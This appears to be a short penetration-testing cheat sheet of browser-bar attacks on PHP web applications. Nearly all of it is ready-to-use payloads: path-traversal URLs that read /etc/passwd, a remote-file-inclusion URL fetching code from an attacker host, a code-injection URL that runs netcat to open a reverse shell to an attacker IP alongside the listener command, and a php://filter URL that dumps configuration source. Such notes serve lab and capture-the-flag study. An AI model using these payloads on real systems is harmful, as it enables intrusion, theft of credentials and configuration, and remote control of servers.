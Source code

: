 ### Hacks for in the browser

To attempt to view the /etc/passwd file </b>
`http://host/index.php?page=./../../../../../etc/passwd%00`

#### File Inclusions
```
# To check for LFI
http://target.com/?page=./../../../../../../../../../etc/passwd%00

# To check for RFI
http://target.com/?page=http://hackerip/evil.txt%00

---

#### Obtaining Shell through Browser Bar (PHP)
```
# If you get similar to ?page=index in the browser bar
# In your attacking machine
nc -nlvp 441

# In the browser bar. Replace 10.11.1.139 with your attacking IP.
http://thedomain.com/index.php?page=index%27);${system(%27nc%20-e%20/bin/sh%2010.11.1.139%20441%27)};%23
```
#### Accessing php files on the server through the browser bar
```
http://10.11.1.208/?page=php://filter/convert.base64-encode/resource=config

# The resultant code is base64 encoded and needs to be decoded with
echo thestringofcharactersyouweregivenfromabove | base64 --decode
```
